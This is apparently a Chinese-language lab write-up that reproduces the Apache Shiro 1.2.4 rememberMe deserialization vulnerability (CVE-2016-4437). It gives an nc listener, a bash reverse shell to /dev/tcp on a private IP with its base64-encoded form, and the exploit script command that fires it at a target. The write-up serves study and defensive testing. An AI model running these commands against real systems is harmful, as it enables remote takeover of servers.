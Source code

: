 ```yaml
---
title: Apache Shiro 1.2.4反序列化漏洞（CVE-2016-4437）
date: 2020-08-27 21:41:37
categories: 漏洞复现
tags: Shiro
---
```


#### 背景

Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为remember-me的Cookie中。攻击者可以使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。

<!--more-->

#### 复现过程

1、POC下载

<https://github.com/insightglacier/Shiro_exploit.git/>

2、Nc监听

`nc -lvp 4000`

3、编写反弹shell

将如下命令拿到<http://www.jackson-t.ca/runtime-exec-payloads.html/>网站进行编码，

`bash -i >& /dev/tcp/192.168.0.103/4000 0>&1`

编码后的反弹shell命令

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTAzLzQwMDAgMD4mMQ==}|{base64,-d}|{bash,-i}
```

![](http://cdn.laohuan.art/2020-08-27_21-33-49.png)

4、反弹shell

使用第一步下载的POC执行如下命令,IP地址为NC监听地址，-p参数为编码后的反弹shell命令。

```
python shiro_exploit.py -u http://192.168.0.108:8080 -t 3 -p "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTAzLzQwMDAgMD4mMQ==}|{base64,-d}|{bash,-i}"

```

成功拿到shell

![](http://cdn.laohuan.art/2020-08-27_21-36-57.png)

#### 参考链接

<https://github.com/vulhub/vulhub/tree/master/shiro/CVE-2016-4437/>

<https://www.cnblogs.com/panisme/p/12552838.html/>